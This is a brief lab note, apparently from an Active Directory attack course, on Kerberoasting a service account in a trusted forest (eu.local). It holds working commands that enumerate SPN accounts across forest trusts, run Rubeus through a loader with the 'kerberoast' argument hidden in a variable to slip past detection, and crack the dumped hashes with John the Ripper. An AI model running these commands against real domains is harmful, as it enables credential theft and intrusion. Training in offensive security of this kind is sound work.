 
Task 

• Find a service account in the eu.local forest and Kerberoast its password.


Using ADModule

```
 Get-ADTrust -Filter 'IntraForest -ne $true' | %{Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName -Server $_.Name}
```

![[Pasted image 20250323203756.png]]

```
echo %Pwn% Kerberoast
```

```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:storagesvc /simple /domain:eu.local /outfile:C:\AD\Tools\euhashes.txt
```

![[Pasted image 20250323203916.png]]

```
C:\AD\Tools\john-1.9.0-jumbo-1-win64\run\john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\euhashes.txt
```

![[Pasted image 20250323203951.png]]


